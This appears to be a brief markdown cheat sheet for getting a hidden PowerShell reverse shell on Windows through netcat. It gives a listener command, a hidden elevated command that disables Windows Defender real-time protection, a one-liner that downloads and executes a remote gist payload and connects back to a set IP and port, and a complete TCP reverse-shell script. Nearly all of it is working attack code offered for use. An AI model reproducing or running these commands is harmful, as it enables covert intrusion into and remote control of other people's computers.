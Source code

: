 # Using NetCat

## Hidden PowerShell for Windows
### Server side
```bash
nc -lp 80
```
### Client side

- Disable windows defender

```ps1
powershell -w hidden start powershell -A 'Set-MpPreference -DisableRea $true' -V runAs
```

- Load the script and listen on the ip and port numbers specified

```ps1
powershell -w hidden "IEX(IWR https://gist.githubusercontent.com/virejdasani/22573dcff0186f1b711613eb6de906ae/raw/76a062b356b3e2846f3625f1cb3ec6430621f840/payload.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.29.21 80"
```

## Script
- Change the ip address in the "quotes" and the port (80)

```ps1
$client = New-Object System.Net.Sockets.TCPClient("192.168.29.21",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd) + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
https://gist.githubusercontent.com/virejdasani/22573dcff0186f1b711613eb6de906ae/raw/76a062b356b3e2846f3625f1cb3ec6430621f840/payload.ps1

--------------------
--------------------
--------------------

## Non-Hidden
```ps1
IEX(IWR https://gist.githubusercontent.com/virejdasani/22573dcff0186f1b711613eb6de906ae/raw/76a062b356b3e2846f3625f1cb3ec6430621f840/payload.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.29.21 80
```



## From this video
https://www.youtube.com/watch?v=A2JNBpUotZM

## Original Script
https://github.com/davidbombal/hak5
